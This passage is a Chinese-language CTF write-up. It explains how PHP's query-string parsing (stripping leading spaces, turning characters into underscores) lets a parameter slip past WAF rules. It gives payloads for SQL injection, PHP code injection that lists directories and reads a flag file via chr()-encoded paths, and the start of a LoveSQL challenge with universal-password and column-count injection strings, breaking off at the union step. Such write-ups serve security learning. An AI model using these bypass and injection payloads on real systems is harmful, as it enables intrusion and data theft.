 我们知道PHP将查询字符串（在URL或正文中）转换为内部$_GET或的关联数组$_POST。例如：/?foo=bar变成Array([foo] => “bar”)。值得注意的是，查询字符串在解析的过程中会将某些字符删除或用下划线代替。例如，/?%20news[id%00=42会转换为Array([news_id] => 42)。如果一个IDS/IPS或WAF中有一条规则是当news_id参数的值是一个非数字的值则拦截，那么我们就可以用以下语句绕过：

/news.php?%20news[id%00=42"+AND+1=0–

上述PHP语句的参数%20news[id%00的值将存储到$_GET[“news_id”]中。

PHP需要将所有参数转换为有效的变量名，因此在解析查询字符串时，它会做两件事：

```
1.删除空白符

2.将某些字符转换为下划线（包括空格）
```

如果 `http://www.xxx.com/index.php?num = aaaa   //显示非法输入的话` 则可以再 `num` 前加一个空格 变成 `http://www.xxx.com/index.php? num = aaaa` 

这样waf就找不到num这个变量了，因为现在的变量叫“ num”，而不是“num”。但php在解析的时候，会先把空格给去掉，这样我们的代码还能正常运行，还上传了非法字符。

## scandir()

列出 参数目录 中的文件和目录，获取flag位置

如果直接使用 `scandir("/")` 发现会被屏蔽，则我们可以使用 `chr(47)` 来对其进行绕过。

```
?%20num=var_dump(scandir(chr(47)))
```

## 获取flag

之后使用 `file_get_contents()` 来获取文件即可


```
num=1;var_dump(file_get_contents(chr(47).chr(102).chr(49).chr(97).chr(103).chr(103)))
```

# 006_[极客大挑战 2019]LoveSQL(SQL注入)   


首先尝试万能密码

```
?username=admin'or'1'='1&password=admin'or'1'='1
```

获取密码，直接拿获取的密码提交flag，发现错误。

接着尝试

由于是 url 中输入，所以不能用 `#` 得用 `%23`
```
/check.php?username=admin' order by 3%23&password=1     存在
```

可知共3个字段。用 `union` 查询测试注入点（回显点位）：
